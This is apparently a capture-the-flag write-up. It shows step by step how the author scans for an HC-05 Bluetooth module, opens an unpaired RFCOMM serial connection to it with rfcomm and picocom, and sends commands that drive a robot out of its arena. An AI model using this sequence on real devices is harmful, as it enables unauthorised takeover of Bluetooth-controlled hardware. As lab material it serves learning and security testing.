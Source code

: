 The goal was to move a robot equipped with an **HC-05 Bluetooth module** out of the arena — without knowing its PIN or MAC address.
I started by scanning with:

```
hcitool scan
```

I found a device named **Amber** with MAC address: `98:D3:41:F7:08:9B`.

Since brute-forcing the PIN wasn’t possible (likely due to active security protections), I looked into **bypassing pairing** to send commands directly.

The **HC-05 module** sometimes **accepts direct connections without pairing** if:

1. It's in **SLAVE mode** (which is the default),

2. No strict PIN enforcement is configured (e.g., no `+CMODE=0` or strict security),

3. A direct RFCOMM serial connection is opened and **the module accepts it**.

I tried:

```
sudo rfcomm bind 0 98:D3:41:F7:08:9B
```

Then in another terminal:

```
picocom -b 9600 /dev/rfcomm0 --omap crcrlf
```

The connection worked, as confirmed by the output:

```
picocom v3.1
port is        : /dev/rfcomm0
...
Terminal ready
Use 'help' command
```

Using `help`, I found available commands:

```
help - Show this help message  
go [forward, backward, left, right] - Move the robot  
stop - Stop the robot  
block - Block the robot  
speed [0-255] - Set or get the speed  
line [enable, disable] - Enable or disable line detection  
distance - Get the distance measured by the ultrasonic sensor
```

So I sent:

```
go forward  
line disable
speed 255  
```

This disabled line detection and made the robot drive forward out of the arena.

**Flag:** `HACKDAY{dO_YOU_L1K3_roBOT_???}`
